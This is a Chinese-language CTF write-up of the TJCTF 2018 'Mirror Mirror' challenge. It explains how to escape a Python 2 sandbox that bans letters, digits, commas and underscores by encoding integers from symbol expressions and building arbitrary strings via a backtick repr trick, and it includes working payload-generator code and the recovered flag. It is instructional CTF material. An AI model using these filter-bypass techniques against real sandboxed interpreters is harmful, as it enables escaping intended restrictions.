


TJCTF2018：Mirror Mirror——一种绕过Python沙箱字符限制的方法

通过nc连接problem1.tjctf.org:8004 ,题目提供一个Python交互终端。
根据题目描述 Reflection 可知与Python反射机制有关。
所谓反射机制就是能够通过向函数传入字符串参数，来操纵指定对象的类型、属性、方法和类。
A Python script can find out about the type, class, attributes and methods of an object. This is referred to as reflection or introspection. See also Metaclasses.
Reflection-enabling functions include type(), isinstance(), callable(), dir() and getattr().
—— https://en.wikibooks.org/wiki/Python_Programming/Reflection
这里使用dir() 函数查看get_flag 的属性。
1 | λ nc problem1.tjctf.org 8004 |
探索后猜测要求向get_flag() 函数传入一个字符串，eval执行后等于super_secret_string就会返回flag。
48, 57, 65, 90, 97, 122, 44, 95 应该意味着ASCII值为 4857，6590，97~122，44和95的字符不被允许，也就是 [a-zA-Z0-9,_] 被禁用了，测试一下发现确实如此。此外 '%\xcb' 字符串也是一个提示。
这题应该是对 A python’s escape from PlaidCTF jail 的复现。主要目标是通过有限的字符 集 ({[<'":~%c>]}) 构造出任意的字符串。主要思路如下：
[]<{}逻辑值为True，等价于1；[]<[]逻辑值为False，等价于0。由1和0，结合按位取反
~和移位<<可以得到任意整数。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18def brainfuckize(nb):
if nb in [-2, -1, 0, 1]:
return ["~({}<[])", "~([]<[])", "([]<[])", "({}<[])"][nb + 2]
if nb % 2:
return "~%s" % brainfuckize(~nb)
else:
return "(%s<<({}<[]))" % brainfuckize(nb / 2)
def f(n):
# 实际上这个函数就足够了，但生成的结果长度会比第一个长很多。
if n == 0:
return "([]<[])"
return "~%s" % f(~n) if n % 2 else "(%s<<({}<[]))" % f(n / 2)
print f(5), eval(brainfuckize(5)) == 5
# ~(~(~(~([]<[])<<({}<[]))<<({}<[]))<<({}<[])) True字符串
%\xcb由%和\xcb)两个字符构成。repr('%\xcb')会得到一个七字符的字符串，其中包含%和c。结合上面的得到的整数就可以构造任意字符了。1
2
3
4
5
6
7
8
9
10
11
12
13
14for i in repr('%\xcb'):
print i,
...
' % \ x c b '
for i in `'%\xcb'`:
print i,
...
' % \ x c b '
`'%\xcb'`[1::3]
'%c'
`'%\xcb'`[1::3]%97 == chr(97)
True
>>>在Python2 中 ，反引号包裹是
repr()的快捷方式，效果完全一致。在Python3中反引号被废除了。接下来就可以构造任意字符串并传给
get_flag()了。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17def bf(nb):
if nb in [-2, -1, 0, 1]:
return ["~({}<[])", "~([]<[])", "([]<[])", "({}<[])"][nb + 2]
if nb % 2:
return "~%s" % bf(~nb)
else:
return "(%s<<({}<[]))" % bf(nb / 2)
def gen_single_char(c):
return "`'%\\xcb'`[" + bf(1) + "::" + bf(3) + "]%(" + bf(ord(c)) + ")"
secret = "this_is_the_super_secret_string"
cmd = 'get_flag("%s")' % ('+'.join(gen_single_char(i) for i in secret))
print cmd
# tjctf{wh0_kn3w_pyth0n_w4s_s0_sl1pp3ry}
